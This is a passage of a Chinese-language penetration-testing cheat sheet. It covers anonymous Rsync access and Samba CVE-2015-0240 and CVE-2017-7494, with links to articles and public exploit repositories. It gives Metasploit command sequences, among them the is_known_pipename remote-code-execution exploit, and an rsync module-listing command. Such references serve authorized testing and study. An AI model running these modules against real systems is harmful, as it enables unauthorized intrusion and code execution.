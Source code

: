 ### Rsync
**未授权访问**
- 文章
    - [rsync的几则tips(渗透技巧)](http://www.91ri.org/11093.html)
    - [配置漏洞之Rsync匿名访问](https://uknowsec.cn/posts/skill/%E9%85%8D%E7%BD%AE%E6%BC%8F%E6%B4%9E%E4%B9%8BRsync%E5%8C%BF%E5%90%8D%E8%AE%BF%E9%97%AE.html)

- 示例

    `rsync <目标IP>::`

- MSF 模块
    ```bash
    use auxiliary/scanner/rsync/modules_list
    set rhosts <ip>
    run
    ```

### samba
**CVE-2015-0240**
- 文章
    - [Samba CVE-2015-0240 远程代码执行漏洞利用实践](https://www.secpulse.com/archives/5975.html)

- MSF 模块
    ```bash
    use auxiliary/scanner/smb/smb_uninit_cred
    set rhosts <ip>
    run
    ```

**CVE-2017-7494**
- 文章
    - [Linux cve-2017-7494samba远程漏洞利用和分析](https://bbs.pediy.com/thread-218114.htm)

- POC | Payload | exp
    - [joxeankoret/CVE-2017-7494](https://github.com/joxeankoret/CVE-2017-7494)
    - [opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)

- MSF 模块
    ```bash
    use exploit/linux/samba/is_known_pipename
    set rhost <ip>
    set target 3
    run
    ```

---

## 远程服务

### Java RMI
**JAVA RMI 反序列化远程命令执行漏洞**
